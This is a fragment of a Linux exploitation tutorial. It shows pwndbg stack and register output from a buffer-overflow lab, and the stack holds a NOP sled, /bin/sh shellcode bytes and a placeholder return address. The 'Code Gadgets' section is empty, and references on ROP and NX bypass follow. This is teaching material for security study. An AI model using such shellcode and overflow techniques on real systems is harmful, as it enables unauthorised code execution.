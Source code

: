 ```bash
Breakpoint /root/tutorial/src/1_staticnx.c:14
pwndbg> stack 50
00:0000│ esp  0xff9abbe0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— xchg   dword ptr [eax], ebp /* 0xfbad2887 */
01:0004│      0xff9abbe4 —▸ 0x80bee20 ◂— push   esp
02:0008│ ecx  0xff9abbe8 ◂— 0x90909090
... ↓
17:005c│      0xff9abc3c ◂— 0x686a9090
18:0060│      0xff9abc40 ◂— 0x2f2f2f68 ('h///')
19:0064│      0xff9abc44 ◂— 0x622f6873 ('sh/b')
1a:0068│      0xff9abc48 ◂— 0xe3896e69
1b:006c│      0xff9abc4c ◂— 0x1010168
1c:0070│      0xff9abc50 ◂— 0x24348101
1d:0074│      0xff9abc54 ◂— 0x1016972
1e:0078│      0xff9abc58 ◂— 0x6a51c931
1f:007c│      0xff9abc5c ◂— 0xe1015904
20:0080│      0xff9abc60 ◂— 0x31e18951
21:0084│      0xff9abc64 ◂— 0x580b6ad2
22:0088│      0xff9abc68 ◂— 0x909080cd
23:008c│      0xff9abc6c ◂— 0x90909090
... ↓
27:009c│      0xff9abc7c ◂— 0xdeadc0de
28:00a0│      0xff9abc80 ◂— 0x0
... ↓
pwndbg> regs
*EAX  0x400
*EBX  0x80481b0 (_init) ◂— push   ebx
 ECX  0xff9abbe8 ◂— 0x90909090
 EDX  0x400
 EDI  0x4e
 ESI  0x80ef00c (_GLOBAL_OFFSET_TABLE_+12) —▸ 0x8069d70 (__strcpy_sse2) ◂— mov    edx, dword ptr [esp + 4]
 EBP  0xff9abc78 ◂— 0x90909090
*ESP  0xff9abbe0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— xchg   dword ptr [eax], ebp /* 0xfbad2887 */
*EIP  0x80488d5 (vuln+57) ◂— sub    esp, 8

```

Problem now is how to modify `0xdeadc0de` by something that falls on the Noop section
#### Code Gadgets


### Bibliography
- [1] Linux exploitation course. Retrieved from https://github.com/nnamon/linux-exploitation-course.
- [2] Bypassing NX with Return Oriented Programming. Retrieved from https://github.com/nnamon/linux-exploitation-course/blob/master/lessons/6_bypass_nx_rop/lessonplan.md.
- [3] pwndebug. Retrieved from https://github.com/pwndbg/pwndbg.
- [4] Why do we have to put the shellcode before the return address in the buffer overflow? Retreived from https://security.stackexchange.com/questions/101222/why-do-we-have-to-put-the-shellcode-before-the-return-address-in-the-buffer-over?rq=1.

